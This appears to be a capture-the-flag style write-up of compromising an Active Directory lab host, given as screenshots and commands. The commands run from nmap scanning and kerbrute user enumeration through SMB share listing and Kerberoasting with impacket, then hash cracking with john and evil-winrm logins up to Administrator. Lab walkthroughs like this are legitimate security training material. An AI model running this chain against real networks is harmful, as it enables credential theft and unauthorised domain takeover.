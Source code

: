![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f4b29e9d-ec91-488d-9c1c-8944f0193732)
```
nmap -p- 192.168.2.4 -v -sC -sV 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9179b2c4-a2d5-44da-9e18-eb2f1fca928d)

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.4 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8378bfd-9f39-49fd-8fd4-ee903864c522)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
```
smbmap -H 192.168.2.4 -u "guest" -p "" -d codeby.cdb 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d0a99e64-34d8-4f12-8a33-f998f6734971)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f576be09-5901-42ff-927f-3f1e3d2e4d06)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/735656c1-2a35-4692-a325-9090da14b569)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84951fcb-17b0-4561-84c9-7963189cb7f2)
```
smbclient -L \\\\192.168.2.4\\ -U amaslova
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eed7217e-c251-47c3-9535-633f5ac2c235)
```
smbmap -u "amaslova" -p "PASS" -H 192.168.2.4 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ff4437ae-ad83-4ff8-a001-f5bab1712848)
```
impacket-GetUserSPNs 'codeby.cdb/amaslova:PASS' -dc-ip 192.168.2.4 -outputfile hashpass.txt  
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/29c39627-ac70-4a32-8348-cfea43f12512)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hashpass.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9dde67b3-b7c3-4d3d-82a3-3fd03297327f)
```
evil-winrm -i 192.168.2.4 -u 'dsemenov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b924c1de-6064-458e-aa9d-581579ab75cd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3732a5e8-7985-4d98-8912-c11ad5003a93)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f714e60c-bd41-4c22-9e00-651c65b5028c)
```
evil-winrm -i 192.168.2.4 -u Administrator -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c943877-4a22-40a1-a984-9bdc388e6113)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e2e38f5a-c017-4ed1-97f2-8fb2bbe978c2)


